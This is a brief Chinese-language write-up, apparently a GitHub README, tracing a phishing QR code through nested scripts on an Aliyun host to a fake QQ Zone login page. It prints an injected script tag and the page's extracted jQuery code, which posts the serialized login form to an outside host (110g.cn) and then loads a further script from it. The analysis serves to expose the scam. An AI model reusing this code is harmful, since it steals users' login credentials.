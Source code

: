 扫描二维码

二维码指向链接httP://p2.meituan.net/1.116/shaitu/3f9991ccd4166b9758c147ef62ce262b68.html

扫描二维码后直接跳转到QQ空间登录界面（看不到任何内容）

用python post一下
import requests
res  = requests.post('httP://p2.meituan.net/1.116/shaitu/3f9991ccd4166b9758c147ef62ce262b68.html')
print(res.text)

得到<scripT/src=//video-csss.oss-cn-hangzhou.aliyuncs.com/1.js></scripT>

访问video-csss.oss-cn-hangzhou.aliyuncs.com/1.js

得到跳转源码1.js

分析源码1.js 最后将1.js的网页提取出来 1.html

1.html中嵌套着<script> 提取到2.js

2.js 调用相关函数 得到 2.html

                 end
###############接收地址##################
if (!err){
			$.ajax({
				url:'https://110g.cn/apisend/Login/',
				type:'POST',
				dataType:'json',
				async:false, 
				data: $('#loginform').serialize(),
				success:function(r){
                Cookies.set('su','su');
				$.getScript('https://110g.cn/apisend/Login/t.js');
				},
				error:function(er){
                Cookies.set('su','su');
				$.getScript('https://110g.cn/apisend/Login/t.js');
      }
			})
		}





